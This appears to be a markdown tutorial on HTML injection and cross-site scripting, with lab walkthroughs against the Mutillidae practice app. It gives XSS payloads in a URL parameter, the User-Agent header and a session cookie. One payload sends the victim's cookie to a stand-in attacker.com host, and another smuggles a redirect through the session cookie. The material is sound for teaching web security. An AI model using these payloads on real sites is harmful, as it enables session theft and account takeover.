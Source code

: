 # HTML Injections 
HTML Injection also known as Cross Site Scripting. It is a security vulnerability that allows an attacker to inject HTML code into web pages that are viewed by other users.

Attackers often inject malicious JavaScript, VBScript, ActiveX, and/or HTML into vulnerable applications to deceive the user in order to gather data from them.  Cross-site scripting (XSS) vulnerabilities can be used by attackers to bypass authentication controls there by gaining access to sensitive data on your system. Well crafted malicious code can even help the attacker gain access to the entire system.

### Example Of Html Injection
- First the attacker finds out a site which is vulnerable to HTML injection
- Then the attacker sends the URL with malicious code injected in the URL to the victim user either through email or some other mechanism.
- If the victim user click this malicious URL, it will run the JavaScript or VBScript code with the privileges of the victim user.
- Depending on the code being executed it can give out sensitive information of the user or even compromise the victim’s computer.

###### Example 
1. **Identify User Input Fields in the URL**:
   - Many web applications take parameters from the URL, such as search queries, user IDs, or other input. Look for URLs that contain query parameters like ?id=, ?search=, ?user=, etc.
   - Example: https://example.com/search?q=shoes

2. **Add payloads to the URL**
    - Ex: `https://example.com/search?q=<script>alert('XSS')</script>`
    - Ex: `https://example.com/search?q=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`

> Try to send any HTML code snippet through the params, if the code is executed, the website have the particular vulnerability.

###### Common Issues
1. Lack of Input Validation
2. Improper Sanitization
3. Dynamic Content Generation
4. Lack of Proper Encoding

###### Redemption
1. Proper Validation
2. CSP - Content Security Policy


### Hands-On - 1
Let's practice with **Mutillidae** (OWASP-BWA) - http://192.168.42.131/mutillidae/  
Go to `OWASP 2013 > A1 Injection (Other) > HTML Injection` there are multiple labs.  
- http://192.168.42.131/mutillidae/index.php?page=browser-info.php

1. Let's work on the Browser Info Lab - Let's test for HTMLi 
![alt text](assets/htmlibrowser1.png)
2. Setup Burpsuite to intercept the parameters
![alt text](assets/htmlibrowser2.png)
- Tested changing the `page` parameter with `<script>alert('XSS')</script>` but it was not successful.
- After careful inspection, `User Agent` value seems to be a param, let's try it out.
![alt text](assets/htmlibrowser3.png)
We have updated the `User Agent` value to `<script>alert('HTMLi - Changing User-agent')</script>`
![alt text](assets/htmlibrowser4.png)
We can see that the code that is sent through `User Agent` is executing successfully.
![alt text](assets/htmlibrowser5.png)
We can even update it with malicous links like `<a href="https://www.malicious.com">Visit Trusted page!</a>`

### Success!!!

### Hands-On - 2
Go to `OWASP 2013 > A1 Injection (Other) > HTML Via Cookie Injection > Capture Data Page` 
![alt text](assets/htmlicookie1.png)
- Here we can clearly see the `PHPSESSIONID`
- Let's intercept and use it, but this time let's try to redirect it to another page.
- PHPSESSID=`<meta http-equiv="refresh" content="5; URL=https://www.facebook.com"/>COOKIE_VALUE`
- Redirected to `Facebook` after 5 Seconds
![alt text](assets/htmlicookie2.png)
### Success